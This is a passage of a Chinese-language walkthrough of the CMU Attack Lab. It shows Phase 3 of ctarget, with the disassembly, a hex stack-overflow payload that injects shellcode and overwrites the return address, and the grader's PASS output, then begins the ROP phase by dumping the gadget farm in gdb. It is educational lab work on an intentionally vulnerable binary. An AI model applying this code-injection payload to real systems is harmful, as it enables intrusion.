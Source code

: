 跟Phase2的操作一样,查看机器指令:
```shell
Phase3.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <Phase3>:
   0:   48 c7 c7 78 dc 61 55    mov    $0x5561dc78,%rdi
   7:   49 c7 c0 fa 18 40 00    mov    $0x4018fa,%r8
   e:   48 83 ec 28             sub    $0x28,%rsp
  12:   41 ff d0                call   *%r8
```
构造注入代码
```
/* Phase3 */
35 39 62 39 39 37 66 61 00          /* cookie:59b997fa */
48 c7 c7 78 dc 61 55                /* mov    $0x5561dc78,%rdi */
49 c7 c0 fa 18 40 00                /* mov    $0x4018fa,%r8 */
48 83 ec 30                         /* sub    $0x30,%rsp */
41 ff d0                            /* call   *%r8 */
/* 以上共30字节 */
ff ff ff ff ff ff ff ff ff ff 
81 dc 61 55 /* 返回地址覆写为0x5561dc81  %rsp+9 */
```
故技重施就成功了!
```shell
$ ./ctarget -qi Phase3-raw
Cookie: 0x59b997fa
Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:3:35 39 62 39 39 37 66 61 00 48 C7 C7 78 DC 61 55 49 C7 C0 FA 18 40 00 48 83 EC 30 41 FF D0 FF FF FF FF FF FF FF FF FF FF 81 DC 61 55
```
这里我踩了一个坑.一开始我没有 `sub    $0x30,%rsp` 导致cookie字符串被覆写了,因为执行返回地址前栈底指针向上移动40字节,加上返回地址似乎pop了,所以栈底指针其实在0x5561dc78+0x28+0x8处.为了避免覆写我的cookie,应先将栈底指针减去48字节再调用 `call touch3`.

# rtaget:Return-Oriented Programming
为了应对以上ctarget的攻击方式,操作系统采用了栈随机化技术和将栈内存标记为不可执行.虽然不能自己注入代码了,但是现有的代码是可以执行的.这就是面向返回的编程(ROP).
ROP的策略是在现有程序的字节序列中抽取指令(以 `0xc3   /* ret */`结尾),被称为gadget.
farm.c文件为我提供了这些可用的指令集,称为gadget farm.在rtarget中,gadget farm以 `start_farm`函数起始,以 `end_farm`函数结尾.我在gdb中,首先分别找到了这两个函数所在的地址:
```shell
(gdb) disassemble start_farm
Dump of assembler code for function start_farm:
   0x0000000000401994 <+0>:     mov    $0x1,%eax
   0x0000000000401999 <+5>:     ret
End of assembler dump.
(gdb) disass end_farm
Dump of assembler code for function end_farm:
   0x0000000000401ab2 <+0>:     mov    $0x1,%eax
   0x0000000000401ab7 <+5>:     ret
End of assembler dump.
```
然后显示这两个地址之间内存的字节
```shell
(gdb) disass /r 0x401994,0x401ab7
Dump of assembler code from 0x401994 to 0x401ab7:
   0x0000000000401994 <start_farm+0>:   b8 01 00 00 00          mov    $0x1,%eax
   0x0000000000401999 <start_farm+5>:   c3                      ret
```